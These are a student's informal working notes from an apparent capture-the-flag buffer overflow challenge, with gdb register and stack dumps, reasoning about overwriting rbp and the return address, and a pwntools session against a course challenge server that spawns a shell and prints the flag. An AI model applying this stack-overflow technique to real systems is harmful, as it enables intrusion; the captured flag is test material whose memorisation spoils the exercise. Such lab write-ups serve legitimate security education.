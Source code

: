 So what happens if I set `rbp` to a reasonable value like `0x7fffffffde38`?
`0x7f ff ff ff de 38`

testpad = 36
`rbp            0x11b67fffffffde38`
I think we're gonna want some 0's before that

Oh okay, it's gonna go to the address at RBP when it returns....
can I just try to pass it "system" again or something like that?
```
Breakpoint 1, 0x00000000004011f7 in win ()
(gdb) $ info registers
rax            0x7f00              32512
rbx            0x7fffffffdf08      140737488346888
rbp            0x7fffffffde38      0x7fffffffde38
rsp            0x7fffffffddf8      0x7fffffffddf8
rip            0x4011f7            0x4011f7 <win+65>
(gdb) $ x/20x $sp
0x7fffffffddf8:    0xffffde38    0x00007fff    0x61616161    0x61616162
0x7fffffffde08:    0x61616163    0x61616164    0x61616165    0x61616166
0x7fffffffde18:    0x61616167    0x61616168    0x61616169    0x6161616a
0x7fffffffde28:    0x6161616b    0x6161616c    0x6161616d    0x6161616e
0x7fffffffde38:    0x6161616f    0x61616170    0x61616171    0x61616172
(gdb) $ c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffde38 in ?? ()
gdb) $ info registers
rax            0x7f00              32512
rbx            0x7fffffffdf08      140737488346888
rbp            0x7fffffffde38      0x7fffffffde38
rsp            0x7fffffffde00      0x7fffffffde00
rip            0x7fffffffde38      0x7fffffffde38
(gdb) $ x/20x $sp
0x7fffffffde00:    0x61616161    0x61616162    0x61616163    0x61616164
0x7fffffffde10:    0x61616165    0x61616166    0x61616167    0x61616168
0x7fffffffde20:    0x61616169    0x6161616a    0x6161616b    0x6161616c
0x7fffffffde30:    0x6161616d    0x6161616e    0x6161616f    0x61616170
0x7fffffffde40:    0x61616171    0x61616172    0x61616173    0x61616174

```

So okay, let me put the address of
Okay, fuck me, the ascii text of `mystring` is `/bin/sh`
So I think if I ran it without GDB it might work


Oh fuck me yeah, this is the same shit as last time where it wasn't running remotely. IDK if I eben needed to poiunt that to a valid thing
```
┌──(kali㉿kali)-[~/Desktop/4-Week]
└─$ python3 newdbg.py
[+] Opening connection to offsec-chalbroker.osiris.cyber.nyu.edu on port 1336: Done
/home/kali/Desktop/4-Week/newdbg.py:215: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  d = p.recvuntil(">")
[*] Switching to interactive mode
 
$ ls
flag.txt
lockbox
$ cat flag.txt
flag{Wh0_n33d5_A_k33y_wen_U_h4v3_a_B0F}
$  

```